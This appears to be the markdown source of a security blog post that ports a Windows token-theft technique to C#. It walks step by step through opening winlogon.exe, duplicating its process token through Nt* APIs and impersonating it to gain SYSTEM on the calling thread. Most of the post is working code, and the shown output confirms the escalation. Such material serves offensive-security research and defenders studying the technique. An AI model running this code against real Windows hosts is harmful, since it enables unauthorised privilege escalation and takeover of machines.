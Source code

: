 ```yaml
---
title: "Nt Token Theft"
date: 2024-02-04T13:39:41Z
draft: false
authors:
    - RastaMouse
---
```


## Intro

[Grzegorz Tworek](https://twitter.com/0gtweet) recently published some C code demonstrating how to steal and impersonate Windows tokens from a process.  The standard way to do this is with the OpenProcess, OpenProcessToken, DuplicateTokenEx, and ImpersonateLoggedOnUser APIs.  Grzegorz shows how to achieve the same using Nt* APIs, specifically NtOpenProcess, NtOpenProcessToken, NtDuplicateToken, and NtSetInformationThread.

Because I'm a C# junky, I ported part of his code.  This post will serve as a short walkthough on how to "getsystem" by stealing and impersonating the token of a SYSTEM process.  The high-level steps are:

1) Obtain a handle to the target process.
2) Obtain a handle to that target's process token.
3) Duplicate the target's process token.
4) Apply that duplicated token to our calling thread.
5) Close all obtained handles.

### NtOpenProcess

A common process to target is the Windows log-on application, `winlogon.exe`.

```c#
// find a winlogon process
// there may be more than 1 if multiple users are logged on
using var winlogon = Process.GetProcessesByName("winlogon").First();

HANDLE hProcess;

var oa = new OBJECT_ATTRIBUTES();
var cid = new CLIENT_ID
{
    UniqueProcess = new HANDLE((IntPtr)winlogon.Id)
};

// open handle to winlogon
NtOpenProcess(
    &hProcess,
    PROCESS_QUERY_LIMITED_INFORMATION,
    &oa,
    &cid);
```

### NtOpenProcessToken

Use the process handle to obtain the process' thread token.

```c#
HANDLE hToken;

// open handle to winlogon's process token
NtOpenProcessToken(
    hProcess,
    TOKEN_QUERY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE,
    &hToken);
```

### NtDuplicationToken

Before being able to duplicate the token, create a new `SECURITY_QUALITY_OF_SERVICE` struct.

```c#
var qos = new SECURITY_QUALITY_OF_SERVICE
{
    Length = (uint)Marshal.SizeOf<SECURITY_QUALITY_OF_SERVICE>(),
    ImpersonationLevel = SECURITY_IMPERSONATION_LEVEL.SecurityImpersonation,
    ContextTrackingMode = 1,    // SECURITY_DYNAMIC_TRACKING
    EffectiveOnly = false
};
```

And a new `OBJECT_ATTRIBUTES` struct which points to `SECURITY_QUALITY_OF_SERVICE`.

```c#
oa = new OBJECT_ATTRIBUTES
{
    Length = (uint)Marshal.SizeOf<OBJECT_ATTRIBUTES>(),
    SecurityQualityOfService = &qos
};
```

Now duplicate the token.

```c#
HANDLE hDupToken;

NtDuplicateToken(
    hToken,
    MAXIMUM_ALLOWED,
    &oa,
    SECURITY_IMPERSONATION_LEVEL.SecurityImpersonation,
    TOKEN_TYPE.TokenImpersonation,
    &hDupToken);
```

### NtSetInformationThread

Once the token has been duplicated, apply it to our own process' thread.  Note that `-2` or `0xfffffffffffffffe` is a pseudo-handle.

```c#
var hCallingThread = new HANDLE((IntPtr)(-2));

// set current thread
NtSetInformationThread(
    hCallingThread,
    THREAD_INFORMATION_CLASS.ThreadImpersonationToken,
    &hDupToken,
    (uint)Marshal.SizeOf<HANDLE>());
```

### GetTokenInformation

We can go a step further to validate that the token was applied by calling `NtOpenThreadToken` on our own process to obtain a handle to its thread token.  This can be passed to `GetTokenInformation`, specifying the `TokenUser` information class.  This will return a `TOKEN_USER` structure which contains a pointer to the SID of the token's user.

```c#
HANDLE hThreadToken;

NtOpenThreadToken(
    hCallingThread,
    TOKEN_QUERY,
    false,
    &hThreadToken);

uint returnLength;

GetTokenInformation(
    hThreadToken,
    TOKEN_INFORMATION_CLASS.TokenUser,
    null,
    0,
    &returnLength);

// allocate buffer
var buffer = Marshal.AllocHGlobal((int)returnLength);

GetTokenInformation(
    hThreadToken,
    TOKEN_INFORMATION_CLASS.TokenUser,
    buffer.ToPointer(),
    returnLength,
    &returnLength);

// read token user
var lpTokenUser = (TOKEN_USER*)buffer.ToPointer();

// translate to nt account
var identity = new SecurityIdentifier((IntPtr)lpTokenUser->User.Sid.Value)
    .Translate(typeof(NTAccount));

// free buffer
Marshal.FreeHGlobal(buffer);

Console.WriteLine($"Thread token: {identity.Value}");
```

This prints:
```text
Thread token: NT AUTHORITY\SYSTEM
```

### Cleaup

Just close handles.

```c#
NtClose(hProcess);
NtClose(hToken);
NtClose(hDupToken);
```

## Conclusion

Grzegorz goes into a little more detail by calling `NtAdjustPrivilegesToken` to ensure that certain privileges are enabled within the current process.  I skipped over this step because I assume they're already enabled by default when running in a high-integrity process.  I certainly encourage you to read Grzegorz's original code: [https://github.com/gtworek/PSBits/blob/master/Misc/TokenStealWithSyscalls.c](https://github.com/gtworek/PSBits/blob/master/Misc/TokenStealWithSyscalls.c).

All of the methods, structs, and enum's etc used within this post can be found on my GitBook, [pinvoke.dev](https://www.pinvoke.dev/).